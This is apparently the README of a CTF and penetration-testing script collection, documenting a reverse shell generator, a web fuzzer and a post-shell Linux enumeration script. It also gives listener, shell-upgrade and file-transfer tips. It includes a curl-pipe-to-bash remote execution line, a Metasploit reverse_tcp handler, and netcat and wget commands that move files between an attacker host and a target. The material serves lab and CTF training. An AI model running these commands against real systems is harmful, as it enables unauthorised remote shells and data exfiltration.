 # CTF Scripts

This directory contains various helper scripts for CTF challenges and penetration testing.

## Available Scripts

### 1. Reverse Shell Generator (`revshell_gen.py`)

Generates reverse shell payloads for various languages and environments.

**Usage:**
```bash
# Show common shells
python3 revshell_gen.py -l 10.10.14.5 -p 4444

# Show all available shells
python3 revshell_gen.py -l 10.10.14.5 -p 4444 -a

# Generate specific shell type
python3 revshell_gen.py -l 10.10.14.5 -p 4444 -s python3

# List available shell types
python3 revshell_gen.py -l 10.10.14.5 -p 4444 --list
```

**Supported shell types:**
- bash-tcp, bash-196, bash-5
- nc (netcat traditional and OpenBSD)
- python, python3
- perl, php-exec, php-system
- ruby, java, powershell
- socat, awk, nodejs
- bash-url (URL encoded)
- bash-b64 (Base64 encoded)

### 2. Web Fuzzing Helper (`web_fuzz.sh`)

Automates common web enumeration tasks using tools like gobuster, ffuf, nikto, etc.

**Usage:**
```bash
# Run all enumeration types
./web_fuzz.sh -u http://example.com -a

# Directory fuzzing only
./web_fuzz.sh -u http://example.com --dirs

# Virtual host fuzzing
./web_fuzz.sh -u http://example.com --vhosts

# Custom wordlist and extensions
./web_fuzz.sh -u http://example.com --dirs -w /path/to/wordlist.txt -e php,html,js

# Subdomain enumeration
./web_fuzz.sh -u http://example.com --subdomains
```

**Options:**
- `-u, --url`: Target URL (required)
- `-w, --wordlist`: Custom wordlist path
- `-e, --extensions`: File extensions (default: php,html,txt,js)
- `-t, --threads`: Number of threads (default: 50)
- `-o, --output`: Output directory (default: ./web_enum)
- `-a, --all`: Run all enumeration types
- `--dirs`: Directory fuzzing
- `--vhosts`: Virtual host fuzzing
- `--subdomains`: Subdomain enumeration
- `--params`: Parameter fuzzing

### 3. Quick Enumeration Script (`quick_enum.sh`)

A quick Linux enumeration script to run on target machines after getting a shell.

**Usage:**
```bash
# On target machine
bash quick_enum.sh

# Or download and execute
curl http://your-server/quick_enum.sh | bash
```

**What it checks:**
- System information (hostname, kernel, OS)
- Current user and privileges
- Sudo privileges
- SUID files
- World-writable files
- Network information
- Listening ports
- Scheduled tasks (cron jobs)
- Users with shell access
- Password file permissions
- Interesting configuration files
- Environment variables

## Tips

### Setting up a listener

For reverse shells:
```bash
# Netcat listener
nc -lvnp 4444

# Metasploit listener
msfconsole -q -x 'use exploit/multi/handler; set payload linux/x86/meterpreter/reverse_tcp; set LHOST 10.10.14.5; set LPORT 4444; run'

# With rlwrap for better shell
rlwrap nc -lvnp 4444
```

### Upgrading shells

Once you have a basic shell:
```bash
# Python PTY
python3 -c 'import pty; pty.spawn("/bin/bash")'
# Press Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=/bin/bash

# Script command
/usr/bin/script -qc /bin/bash /dev/null
```

### File transfer

Transfer files to/from target:
```bash
# On attacker (serve files)
python3 -m http.server 8000

# On target (download)
wget http://10.10.14.5:8000/file
curl http://10.10.14.5:8000/file -o file

# Upload with nc
# Attacker: nc -lvnp 4444 > file
# Target: nc 10.10.14.5 4444 < file
```

## Contributing

Feel free to add more scripts or improve existing ones!
